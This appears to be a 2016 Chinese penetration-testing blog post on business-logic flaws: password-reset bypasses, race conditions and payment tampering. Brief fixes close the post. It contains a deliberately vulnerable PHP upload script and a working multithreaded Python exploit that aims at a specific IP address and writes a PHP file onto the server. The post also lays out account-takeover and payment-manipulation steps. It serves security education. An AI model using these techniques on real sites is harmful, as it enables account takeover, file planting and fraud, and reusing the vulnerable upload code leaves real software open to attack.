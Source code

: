 +++
date = "2016-07-31T18:43:49+08:00"
description = ""
draft = false
tags = ["逻辑漏洞"]
title = "逻辑漏洞"
topics = ["Pentest"]

+++

### 0x00 逻辑漏洞
> ```
逻辑漏洞是一种业务逻辑上的设计缺陷，业务流存在问题。
这里说一下密码找回漏洞、多线程条件竞争漏洞和支付漏洞。
```

### 0x01 密码找回漏洞
* 测试流程

> ```
* 先尝试正确的密码找回流程，记录不同找回方式的所有数据包
* 分析数据包，找到有效数据部分
* 推测数据构造方法
* 构造数据包验证猜测
```

* 分类

> ```
* 邮箱找回
    一般是点击邮件中的链接后会转跳到修密码的页面，这就需要分析链接的token构造了，
    可以考虑是时间戳md5、用户名或邮箱和随机字符串md5等，一般是类似如下链接：
    http://domain/findpwd.php?u=xiaoming&token=MTIzQHFxLmNvbQ==
    http://domain/findpwd.php?id=374&token=2ad64bf14c714dbce88c7993663da7da
    当构造相应链接时就可以重置任意用户的密码
* 手机短信找回
    短信找回一般就是4位或6位验证码，暴力猜测吧
* 找回逻辑错误
    若恶意用户A用15123333333找回密码，此时收到验证码但不使用
    此时恶意用户A再用受害者B的手机号找回密码
    用户A在B的验证表单填入自己收到的验证码，发送
    此时跳转的修改密码页面修改的就是用户B的密码
* 直接修改密码
    在修改密码时跳过选择找回方式，直接访问修改密码的页面进行修改
* 本地验证
    随意输入一个验证码，开Burp抓包，forward，抓返回包，返回包里可能有一个flag字段，
    若flag的值为1则跳转到修改密码页面，所以只要修改返回包即可
* 服务端将验证码返回给浏览器
    在点击获取验证码时，服务器会将验证码发送给浏览器，抓包即可
* 验证码直接出现在url中
    当点击获取验证码时发出的请求链接中直接有code
* 密保问题找回
    回答密保问题，有时一些答案就在html源码里
```

### 0x02 多线程条件竞争漏洞
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;多线程条件竞争漏洞是一种服务端的漏洞，服务端是并发处理用户请求的,  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;若并发处理不当或相关操作逻辑设计有缺陷时就会产生一些安全问题。

* 文件上传

> 服务端可以sudo apt-get install inotify-tools安装监听文件的软件，  
执行inotifywait -m /var/www/html/admin监听admin文件夹中文件的变化
```php
//uploads.php代码如下，仅供测试：
<meta charset='utf-8'>
<?php
    $allowtype = array("gif","png","jpg");
    $size = 10000000;
    $path = "./uploads/";

    $filename = $_FILES['myfile']['name'];

    if (is_uploaded_file($_FILES['myfile']['tmp_name'])){
        if (!move_uploaded_file($_FILES['myfile']['tmp_name'],$path.$filename)){
            die("error:can not move!");
        }
    } else {
        die("error:not an upload file！");
    }

    echo "file upload success.file path is: ".$path.$newfile."\n<br />";

    if ($_FILES['myfile']['error']>0){
        unlink($path.$newfile);
        die("Upload file error: ");
    }

    $ext = array_pop(explode(".",$_FILES['myfile']['name']));
    if (!in_array($ext,$allowtype)){
        unlink($path.$newfile);
        die("error:upload the file type is not allowed，delete the file！");
    }
?>
```

* 简单利用代码如下：

> ```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests
import threading
import time

"""
200个线程上传文件aa.php，同时200个线程同时请求aa.php，aa.php中内容为
<?php fputs(fopen("info.php","w"),"<?php phpinfo(); ?>") ?>，
只要aa.php被请求成功就会生成内容为<?php phpinfo(); ?>的php文件info.php
"""

is_exit = False

def create_info():
    global is_exit
    while not is_exit:
        url = "http://123.206.78.220/uploads/aa.php"
        resp = requests.get(url)

def put_file():
    global is_exit
    file = {'myfile':('aa.php',open('C:/Users/Administrator/Desktop/aa.php'),'application/octet-stream')}
    upload_url = "http://123.206.78.220/uploads.php"
    while  not is_exit:
        requests.post(upload_url,files=file)

def check_info():
    global is_exit
    print "start threading check info.php:"
    url = "http://123.206.78.220/uploads/info.php"
    while True:
        print "check info.php..."
        resp = requests.get(url)
        if resp.status_code == 200:
            is_exit = True
            print "create file info.php success."
            break

for x in xrange(1,200):
    t = threading.Thread(target=create_info)
    t.setDaemon(True)
    t.start()
    print "start create_into threading %d" % x

for x in xrange(1,200):
    t = threading.Thread(target=put_file)
    t.setDaemon(True)
    t.start()
    print "start put_file threading %d" % x


t = threading.Thread(target=check_info)
t.setDaemon(True)
t.start()
try:
    while t.isAlive():
        pass
    time.sleep(1)
except KeyboardInterrupt:
    print 'stopped by keyboard'
 ```

* 数据库操作

> ```
在数据库进行update、delete等操作时使用多线程请求，可在一次
update时间内完成多次update，和上面的文件上传其实是一个原理
```


### 0x03 支付漏洞
> ```
攻击者通过修改交易金额、交易数量等从而利用漏洞，
如Burp修改交易金额、使交易数量为负数或无限大等。

* 在支付时直接修改数据包中的支付金额，实现小金额购买大金额商品
* 修改购买数量，使之为负数，可购买负数量商品，从而扣除负积分，即增加积分，
  或使购买数量无限大，无限大时则程序可能处理出错，从而实现0金额支付
* 请求重放，在购买成功后重放请求，可实现"一次购买对此收货"
```

### 0x04 漏洞修复
* 对于密码重置漏洞，可以使用复杂的token，使之不可被预测
* 对于密码重置漏洞，校验refer，不使用本地校验等
* 对于多线程竞争漏洞，文件移动一定在一切判断之后，对于数据库则可以设置锁
* 对于支付漏洞，主要就是签名了，或者https